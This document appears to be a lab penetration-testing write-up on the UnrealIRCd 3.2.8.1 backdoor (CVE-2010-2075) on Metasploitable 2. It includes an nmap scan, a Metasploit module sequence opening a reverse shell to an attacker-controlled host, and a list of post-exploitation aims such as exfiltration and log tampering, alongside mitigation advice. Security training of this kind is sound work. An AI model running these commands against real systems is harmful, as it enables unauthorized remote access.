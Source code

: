 # 🛡️ Penetration Testing of UnrealIRCd 3.2.8.1 on Metasploitable 2

## 📌 Project Overview
Company XYZ, a fast-growing fintech firm, relies on an internal IRC server for developer communications.
This project assesses the security posture of that server, which runs UnrealIRCd 3.2.8.1—a version known 
to contain a backdoor vulnerability.

As a penetration tester, I conducted a controlled assessment to:
- Identify vulnerabilities
- Demonstrate exploitability
- Evaluate business risks
- Recommend mitigation strategies


## 🚨 Executive Summary

### Objectives
- Assess the IRC server's security
- Identify vulnerabilities affecting confidentiality, integrity, or availability
- Evaluate exploitability using reconnaissance and passive scanning
- Recommend mitigation strategies

### Key Findings
- **Outdated Software**: UnrealIRCd 3.2.8.1 confirmed to be vulnerable
- **Confirmed Exploitability**: Verified via Nmap and passive recon tools
- **Risk Level**: High

### Business Risks
- Remote unauthorized access
- Exposure of internal communications
- Potential lateral movement across infrastructure

### Recommended Actions
- Decommission or upgrade the IRC server immediately
- Segment the network to isolate critical assets
- Enhance monitoring and logging


## 🔍 Reconnaissance

### Active Recon (Nmap)
```bash
nmap -sS -sV -T4 --version-light <Target IP>
```
Sample Output:
```
PORT       STATE    SERVICE    VERSION
6667/tcp   open     irc        UnrealIRCd 3.2.8.1
```

### Passive Recon
- Used Rapid7 and Google Dorking to identify CVE-2010-2075
- Discovered public exploit modules and vulnerability documentation


## 🧨 Exploitation

### Metasploit Module
```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST <Target IP>
set RPORT 6667
set PAYLOAD cmd/unix/reverse
set LHOST <Kali IP>
set LPORT 4444
exploit
```

### Result
- Successful reverse shell access
- Full command execution without authentication

---

## 🕵️ Post-Exploitation
- Privilege escalation
- Persistence mechanisms
- Data exfiltration
- Network pivoting
- Log tampering

---

## ⚠️ Vulnerability Analysis

- **CVE ID**: CVE-2010-2075  
- **Type**: Remote Command Execution via Backdoor  
- **Impact**: Full unauthenticated shell access

---

## 🧯 Mitigation Recommendations
- Upgrade to the latest version from [unrealircd.org](https://www.unrealircd.org/)
- Verify installation integrity
- Restrict IRC port access (e.g., 6667)
- Enable SSL/TLS
- Monitor with IDS/IPS tools
- Audit user accounts and reset credentials

---

## 👨‍💻 Author
**Adams Samson**  
FCT Abuja, Nigeria


## 📬 Contact

- **Email:** [adamsmona111@gmail.com](mailto:adamsmona111@gmail.com)  
- **LinkedIn:** [linkedin.com/in/adams-samson](https://www.linkedin.com/in/adams-samson)


---

## 📜 License
This project is licensed under the MIT License.
```
